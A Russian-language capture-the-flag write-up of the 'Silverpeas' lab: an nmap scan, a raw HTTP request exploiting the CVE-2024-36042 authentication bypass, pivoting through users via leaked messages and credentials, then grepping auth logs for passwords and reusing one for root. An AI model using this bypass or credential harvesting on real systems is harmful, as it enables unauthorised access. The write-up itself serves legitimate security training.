








# Write-up: Silverpeas 


## Recon

Запускаем полное сканирование:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1000 $TARGET
```

Ключевые открытые порты:

```text
22/tcp    open  ssh         OpenSSH 8.9p1 Ubuntu
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp  open  http-proxy
```

На `8080` отдаётся 404 со страницей ошибки — типичный признак Java-приложения.

## Веб на 80

Открываем `http://10.144.134.61/`:



Находим имя пользователя и подсказку:



```text
username: scr1ptkiddy
```

## Silverpeas на 8080

По адресу `http://TARGET:8080/silverpeas` крутится Silverpeas:



## CVE-2024-36042: обход аутентификации

Уязвимость позволяет залогиниться без пароля — достаточно отправить POST с одним `Login` и `DomainId`.

```http
POST /silverpeas/AuthenticationServlet HTTP/2
Host: $TARGET
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=scr1ptkiddy&DomainId=0
```

В Burp перехватываем запрос логина и просто удаляем параметр пароля — заходим как `scr1ptkiddy`:





## Переход по пользователям

В профиле есть сообщение от Manager:


По той же схеме заходим к Manager (меняем `Login=Manager`).

У Manager есть сообщение от admin:



Получаем креды:

```text
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



Заходим по SSH под `tim`.

## PrivEsc: чтение логов

Один из самых простых и в то же время действенных шагов — прочитать логи. В `/var/log/auth*` часто остаются пароли от неудачных/успешных логинов, включая служебные учётки:

```bash
cat /var/log/auth* | grep -i pass
```



Находим:

```text
DB_PASSWORD=_Zd_zx7N823/
```

Для `root` используем тот же пароль (он совпадает или переиспользуется):

```bash
su root
# Password: _Zd_zx7N823/
```


## Итоговая схема (Kill Chain)

`nmap (80, 8080)` → `Silverpeas` → `CVE-2024-36042 (auth bypass)` → `scr1ptkiddy → Manager → admin` → `creds tim` → `SSH` → `логи `/var/log/auth*`` → `root`